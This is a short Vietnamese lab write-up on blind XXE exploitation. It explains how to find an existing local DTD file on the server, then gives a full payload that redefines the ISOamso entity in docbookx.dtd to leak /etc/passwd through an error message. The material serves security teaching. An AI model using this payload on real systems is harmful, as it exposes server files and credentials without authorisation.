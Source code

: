 ## Overview  
Bài này ta cần phải xác định được file dtd nào đang được lưu trên server. Việc này khá đơn giản, ta chỉ cần search danh sách các public dtd có sẵn trên OS sau đó
thử từng cái. 
***File tồn tại trên hệ thống***  
![image](https://user-images.githubusercontent.com/22276823/127730424-fda4b844-a72b-4b6d-abc9-9817f371cc80.png)  

***File không tồn tại trên hệ thống***  
![image](https://user-images.githubusercontent.com/22276823/127730446-71d77647-07ba-4289-9dae-2656f2d3c478.png)  

Sau khi đã xác định được file dtd, tìm một file mẫu tương tự và kiểm tra xem có thể thay đổi được entity nào. 
Bài lab này đã cho sẵn file và entity, việc của chúng ta là tạo payload  
```<!DOCTYPE message [
<!ENTITY % local_dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd">
<!ENTITY % ISOamso '
<!ENTITY &#x25; file SYSTEM "file:///etc/passwd">
<!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>">
&#x25;eval;
&#x25;error;
'>
%local_dtd;
]> 
```  
Payload này sẽ gọi đến file dtd `docbookx.dtd` được lưu trên server, khai báo lại entity `ISOamso` gọi tới nội dung file `/etc/passwd`  

![image](https://user-images.githubusercontent.com/22276823/127730484-a5359c1e-20a7-4fef-ba4b-505764c1e2bf.png)  

